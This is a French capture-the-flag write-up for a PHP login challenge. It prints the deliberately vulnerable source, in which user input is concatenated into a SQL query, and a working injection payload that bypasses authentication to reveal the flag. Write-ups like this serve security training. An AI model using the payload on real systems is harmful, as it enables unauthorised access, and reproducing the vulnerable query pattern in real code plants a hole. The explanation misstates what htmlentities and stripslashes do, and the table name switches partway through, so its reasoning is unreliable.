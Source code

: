 # Web 100 - Super Query Login

Une nouvelle épreuve avec une injection SQL, la source du challenge est disponible:

> <!DOCTYPE html>
<html>
<head>
<title>SQLi</title>
</head>
<body>
<p>Bypass this auth !<br><a href="?viewsource">source</a></p>
<form action="" method="POST">
Login: <input type="text" name="login"><br>
Passw: <input type="password" name="password"><br>
<input type="submit" value="Connection">
</form>
<?php
if (isset($_POST['login']) && isset($_POST['password'])) {
require('config.php');
$login = stripslashes(htmlentities($_POST['login'], ENT_QUOTES)); **[1]**

> $pass = stripslashes(htmlentities($_POST['password'], ENT_QUOTES)); **[2]**


> $sql = "SELECT * FROM web1_users WHERE login = '" . $login . "' AND password = '" . $pass . "' ";** [3]**
$result = mysql_query($sql) or die(mysql_error());
if( mysql_num_rows($result) == 1) {
$data = mysql_fetch_array($result);
echo "You can valid with <b>".$data['password']."</b>";
}
else {
echo "<b>Wrong login/password !</b>";
}
}
?>
</body>
</html>


En [1] et [2] on a la fonction htmlentities($var, ENT_QUOTES) qui échappe les quotes (‘) et les
guillemets (“). 
Si pour le login on soumet 
> ‘or 1=1 #

, le login après avoir été passé dans htmlentities aura
la valeur \’or 1=1 # et notre injection ne fonctionnera pas.

L’idée ici c’est de profiter que l’on peut manipuler les variables $login ET $pass.
On va alors échapper le guillemet de fermeture de $login: \

La requête SQL [3] devient alors:
>SELECT * FROM chall1_users WHERE login = '\' AND password = 'toto'

En vert la partie qui sera interprétée comme le login et en rouge notre champ d’exploitation.
Cependant la variable $login est aussi passée dans la fonction stripslashes() qui a pour effet d’échapper
les back slashes. 
Il nous suffit d’injecter comme ceci: \\ ce qui nous donnera:
> SELECT * FROM chall1_users WHERE login = '\\\ ' AND password = 'toto'


L’injection finale pour se connecter est la suivante.

> login=\\ &password= or 1=1 limit 1 -- a-


On obtient ensuite le flag : **ese{Htmlentities_bypass}**
